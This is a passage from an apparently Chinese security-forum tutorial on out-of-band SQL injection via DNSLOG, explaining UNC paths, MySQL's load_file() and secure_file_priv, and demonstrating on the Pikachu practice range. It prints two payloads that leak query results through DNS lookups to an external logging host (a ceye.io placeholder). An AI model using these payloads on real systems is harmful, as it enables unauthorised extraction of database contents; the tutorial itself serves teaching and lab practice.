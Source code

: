 这里爆破后我们点击最上方的列（Columns）功能，增加一个响应完成时间的维度，时间长的便是正确的字符，表名、字段名、数据内容猜解原理与表名相同，这里就不再赘述  
![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-27790b2cac95cf9c0d45724e527649b31fa9ffcc.png)

基于 DNSLOG 的注入
-------------

DNSLOG 是存储在 DNS 服务器上的域名信息，它记录着用户对域名的访问信息，类似日志文件。像是 SQL 盲注、命令执行、SSRF 及 XSS 等攻击但无法看到回显结果时，就会用到 DNSLOG 技术，相比布尔盲注和时间盲注，DNSLOG 减少了发送的请求数，可以直接回显，也就降低了被安全设备拦截的可能性

DNSLOG 注入优点众多，但利用条件也较为严苛

- 只支持 Windows 系统的服务端，因为要使用 UNC 路径这一特性，Linux 不具备此特性
- Mysql 支持使用`load_file()`函数读取任意盘的文件 ### UNC 路径

UNC 全称 Universal Naming Convention，译为通用命名规范，例如我们在使用虚拟机的共享文件功能时，便会使用到 UNC 这一特性  
![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-36ed7442014d66afcbd9c5d21c6ef284d83c494a.png)

UNC 路径的格式如下：

```php
\\192.168.0.1\test\
```

这里我们使用运行使用 UNC 路径访问`www.dnslog.cn`，并使用 wireshark 抓包，可以看到确实存在对`www.dnslog.cn`这个域名进行 DNS 请求的流量，但是并不会在浏览器直接打开网站  
![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-869972d2fa22d20d899b1fe7b82b72fcc1cf3016.png)

### load\_file() 函数

上文我们提到，`load_file()`函数可以读取**任意**盘的文件才可以使用 DNSLOG 注入，它的读取范围由 Mysql 配置文件`my.ini`中的`secure_file_priv`参数决定

- 当`secure_file_priv`为空，就可以读取磁盘的目录
- 当`secure_file_priv`为`G:\`，就可以读取G盘的文件
- 当`secure_file_priv`为 null，`load_file()`函数就不能加载文件（null 和空是两种情况） ### DNSLOG 盲注原理

先给出最常用的两种 Payload

```php
Payload 1:
and if((select load_file(concat('//',(select 攻击语句),'.xxxx.ceye.io/sql_test'))),1,0)

Payload 2:
and if((select load_file(concat('\\\\',(select 攻击语句),'.xxxx.ceye.io\\sql_test'))),1,0)
```

Payload 1,2 大体的思路都是一样的，也就是在`if()`函数中嵌套`load_file()`函数再使用 UNC 路径进行读取，`sql_test`这里写什么都可以，只是为了符合`load_file()`函数格式，读取时会产生 DNS 访问信息，唯一的不同点在于 Payload 2 在 URL 中使用`\(反斜杠)`时要双写配合转义

> 转义：转义是一种引用单个字符的方法. 一个前面放上转义符 ()的字符就是告诉 shell 这个字符按照字面的意思进行解释

这里使用 Pikachu 靶场的时间盲注关卡进行演示，方便大家进行理解，在测试前一定先要确保`secure_file_priv`选项为空，可以使用`show variables like '%secure%';`进行查询  
![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-88d1c294e712396ef24333f13ab9505ceb53fc0a.png)  
在修改`my.ini`文件时需要注意`secure_file_priv`选项是新增的，本身并没有这个选项  
![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-feae69e691323cd70011edc1e74b237a626d53e1.png)  
通过判断可以发现是单引号闭合，先爆出库名，可以通过 DNSLOG 平台看到库名为 pikachu  
![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-551a37f7203c109926f6beedd8838852255e7a45.png)  
这里还可以使用`hex()`函数，将回显内容编码为十六进制，这样做的好处是，假设回显内容存在特殊字符`!@#$%^&`，包含特殊字符的域名无法被解析，DNSLOG也就无法记录信息，进行编码后就不存在这个问题  
![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-5899c18a6083f2c2284c47f8b0d8316a8c9b587b.png)
